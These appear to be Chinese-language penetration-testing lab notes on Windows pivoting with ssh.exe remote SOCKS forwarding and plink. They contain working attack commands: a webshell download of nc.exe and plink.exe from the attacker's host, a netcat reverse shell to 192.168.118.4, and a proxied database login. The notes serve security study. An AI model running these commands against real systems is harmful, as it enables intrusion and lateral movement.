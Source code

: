 ## 18.4 Windows端口转发工具

### 18.4.1 ssh.exe

kali（192）---win跳板1（192和10）---目标（10）

kali上开启ssh服务

```armasm
sudo systemctl start ssh
```

rdp到跳板1上，找到ssh.exe，连接kali

```armasm
xfreerdp /u:rdp_admin /p:P@ssw0rd! /v:192.168.50.64
where ssh
ssh.exe -V
版本高于7.6才可以做端口转发
ssh -N -R 9998 kali@192.168.118.4
```

kali上开启了9998的socks代理，配置proxychains后可以连10段主机

```armasm
ss -ntplu
tail /etc/proxychains4.conf
socks5 127.0.0.1 9998
proxychains psql -h 10.4.50.215 -U postgres
\l
```

### 18.4.2 plink

kali（192）---防火墙（屏蔽连接跳板1的3389端口）---win跳板1（192）

开上开启80端口web服务供下载文件

```armasm
sudo systemctl start apache2
find / -name nc.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/nc.exe /var/www/html/
find / -name plink.exe 2>/dev/null
sudo cp /usr/share/windows-resources/binaries/plink.exe /var/www/html/

nc -nvlp 4446
```

跳板1上使用webshell下载nc，反弹shell到kali上

```armasm
powershell wget -Uri http://192.168.118.4/nc.exe -OutFile C:\Windows\Temp\nc.exe
C:\Windows\Temp\nc.exe -e cmd.exe 192.168.118.4 4446
powershell wget -Uri http://192.168.118.4/plink.exe -OutFile C:\Windows\Temp\plink.exe
```

下载plink后，做ssh到kali，开启kali的9833端口，连接到跳板1的3389端口
